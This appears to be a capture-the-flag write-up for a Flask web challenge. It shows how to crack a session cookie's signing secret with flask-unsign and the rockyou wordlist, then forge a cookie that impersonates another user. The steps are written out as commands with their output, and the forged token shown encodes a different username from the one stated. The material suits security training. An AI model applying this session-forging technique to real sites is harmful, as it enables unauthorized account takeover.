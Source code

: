 # CyberStreak v1.0

> Hello, 
>
> I am a student and I would like to improve my web development skills. To practice, I am creating my first web application. This application is a kind of cybercoach. Example: you want to do sports. A sport goal could be to do 100 push-ups per day for 1 month. The application will allow you to create this "challenge" and each day, you will have to do the number of push-ups you have set and note it in the application. If you don't do the push-ups for 3 days, it's a failure and you lose your streak. 
> 
> This first version of the application gives you the possibility to create an account and to do the challenge of the example. 
> 
> Can you test the security of my application ?
> 
> **xXx-michel-xXx**
> 
> http://challs.dvc.tf:5001
> 
> *Brute force is strictly forbidden and useless.*
> 

- Response headers : `Server : Werkzeug/2.0.3 Python/3.9.7` -> Flask used
- https://book.hacktricks.xyz/pentesting/pentesting-web/flask#flask-unsign
- Create an account and login to get a session token : `eyJ1c2VybmFtZSI6ImFhIn0.YiTXwg.rQQZCm707NBMMYiCYq-Q98wgCGI`
- Crack the secret key used to sign the session token :

```
$ flask-unsign --unsign --cookie 'eyJ1c2VybmFtZSI6ImFhIn0.YiTXwg.rQQZCm707NBMMYiCYq-Q98wgCGI' --wordlist rockyou.txt --no-literal-eval
[*] Session decodes to: {'username': 'aa'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 70144 attempts
b's3cr3t'
```

- Sign `{'username': 'xXx-michel-xXx'}` with the secret key `s3cr3t` : 

```
$ flask-unsign --sign --cookie "{'username': 'xXx-michel-xXx'}" --secret 's3cr3t'
eyJ1c2VybmFtZSI6IkFkYW1hbnR5ciJ9.YiTbWA.oedcmipeyxCBt6MWFKdMh7VeyIk
```

- Go to http://challs.dvc.tf:5001 with the cookie : `session=eyJ1c2VybmFtZSI6IkFkYW1hbnR5ciJ9.YiTbWA.oedcmipeyxCBt6MWFKdMh7VeyIk` and get the flag
